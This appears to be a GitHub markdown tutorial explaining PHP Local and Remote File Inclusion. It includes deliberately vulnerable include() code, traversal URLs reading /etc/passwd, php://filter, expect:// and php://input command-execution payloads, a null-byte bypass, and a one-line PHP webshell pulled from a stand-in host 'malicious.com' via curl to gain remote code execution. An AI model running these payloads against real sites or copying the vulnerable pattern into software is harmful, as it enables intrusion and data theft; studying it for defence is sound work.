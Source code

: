 # LFI (Local File Inclusion) & RFI (Remote File Inclusion)
This is a vulnerability that allows an attacker to include files on a server through the web browser basically to read them, apart from the hosted web-root directory.

LFI is mostly caused when a developer is too lazy to write a secure code >.<

```php
<?php
	$file = $_GET['page'];
	if (isset($file)){
		include("pages/$file");
	} else {
		include("ingex.php");
	}
?>
```

That above is an example of a vulnerable LFI code.

### Identifying LFI vulnerabilities
Say you visit a website `http://example.com/index.php` and from the navigation bar you find `http://example.com/index.php?page=about.php`, An attacker can attempt to exploit this by trying LFI:

`http://example.com/index.php?page=about.php`
`http://example.com/index.php?page=../../../../../../../etc/passwd`

Where this will include the `/etc/passwd` file instead of `about.php`

### Wrappers (PHP)
Sometimes wrappers can be used in this case , but depends with if the wrapper you are to use is allowed or not.

***EXPECT***
This wrapper allows execution of system commands , unfortunately it is not enabled by default, it can be used as below:

`http://example.com/index.php?page=expect://ls`

And the output over here shall be the listing of the files inside the server from the pwd it was executed at

***INPUT***
This wrapper also allows system commands execution , it can be used as follows:

`curl -X POST "http://example.com/index.php?page=php://input&cmd=ls" -d <?php echo system($_GET['cmd'];);?>`

***FILTER***
Allows an attacker to include localfiles which are then encoded with base64 to be the output, thus an attacker will have to decode the base64 content to get the plain text content, here is an example:

`http://example.com/inedx.php?page=php://filter/convert.base64-encode/resource=/etc/passwd`

This will encode the `/etc/passwd` file in base64 then output it.

### Null Byte Technique Bypassing
Sometimes it is filtered thus you have to bypass the filter to be able to fully perform LFI , by this we can bypass the filters using Null byte injection bypasses where as we add URL encoded `NULL BYTES` such as `%00` , for example:

`http://example.com/index.php?page=/etc/passwd%00`

### LFI 2 RCE
There are plenty of ways to get RCE from LFI , among them is by performing Log poisoning where as you send a request with a shell snippet code and then access the log and add a parameter that will perform execution of system commands , and the other would be by poisoning mail logs , and as well as the `input` wrapper and the `expect` wrapper

# RFI (Remote File Inclusion)
This vulnerability is almost the same to LFI but this one is of course remote , so you can perform almost the same thing in LFI but by accessing a remote vendor saying the code is :

```php
<?php
	$file = $_REQUEST['file'];
	if (isset($file)){
		include($file.'php');
	} else {
		include('index.php');
	}
?>
```

This is just an example of what the code looks like , so basically what it does it just takes the `?page=` parameter with a page like `about` without the `.php` at the end and then it outputs it, so we can take advantage of this by hosting a malicious script from our server `malicious.com` and then host the malicious php webshell from it and then request it from the website that is vulnerable without the extension, the malicious script would in this case be:

```php
<?=`$_POST[0]`?>
```

Where it is taking the data `0` and then executing it with system command then outputing the result so we can host it and access it to the targetted site with curl simple by writing:

```bash
curl -X POST "http://example.com/index.php?page=http://malicious.com/evil" -d "0=ls"
```

We didn't write `evil.php` because it will say not found since it will be called as `evil.php.php` , instead I just wrote `evil` where it will then be called `evil.php`.

From there I can definitely get RCE

**By tahaafarooq**
